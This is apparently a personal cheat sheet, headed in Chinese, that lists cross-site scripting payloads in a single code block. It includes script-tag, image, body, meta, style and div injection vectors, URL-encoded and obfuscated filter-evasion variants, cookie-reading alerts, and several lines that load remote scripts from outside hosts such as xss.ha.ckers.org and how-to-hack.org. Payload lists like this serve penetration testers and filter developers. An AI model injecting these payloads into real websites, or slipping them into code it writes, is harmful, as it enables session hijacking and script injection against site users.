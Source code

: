 ## xss代码辑录
```
//界面弹窗
<script>alert(document.cookie)</script>
<script>alert(vulnerable)</script>
<script>alert(125)</script>
<script>alert('XSS')</script>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT src="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT a=">" '' src="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
<SCRIPT src="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E
%3Cscript%3Ealert('XSS')%3C/script%3E
%22%3cscript%3ealert(%22xss%22)%3c/script%3e
%0a%0a<script>alert(\"Vulnerable\")</script>.jsp
%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html
%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3Cscript%3Ealert(document. domain);%3C/script%3E&
%3Cscript%3Ealert(document.domain);%3C/script%3E&SESSION_ID={SESSION_ID}&SESSION_ID=
<script>window.open('http://www.pete.cn /default.asp','newwindow','width=200,height=200');</script>

<img src=x onerror=alert(123)>
<img src="javascript:alert('XSS')">
<IMG src=JaVaScRiPt:alert('XSS')>
<IMG src="jav ascript:alert('XSS');">
"<IMG src=java\0script:alert(\"XSS\")>";' > 
<IMG src='vbscript:msgbox("XSS")'>
<IMG src="mocha:[code]">
<IMG src="livescript:[code]">
<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG src="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
<IMG src=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

<BODY BACKGROUND="javascript:alert('XSS')">
<BODY ONLOAD=alert('XSS')>
<BODY%20onload!#$%&()*~+-_.,:;?@[/|\]^`=alert(“XSS”)>

<a href="http://www.baidu.com">百度</a>
<A href=http://www.gohttp://www.google.com/ogle.com/>link</A>

<META HTTP-EQUIV=”refresh” CONTENT=”0; URL=http://;URL=java:alert(‘XSS’);”>
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">

<LINK REL="stylesheet" href="javascript:alert('XSS');">

<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE TYPE="text/css">.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A class="XSS"></A>
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html');">
<DIV STYLE="width: expression(alert('XSS'));">

<BGSOUND src="javascript:alert('XSS');">
<br size="&{alert('XSS')}">
<LAYER src="http://xss.ha.ckers.org/a.js"></layer>
<p><svg onload=prompt(/xss/)></p>   //遇到过这种情况
```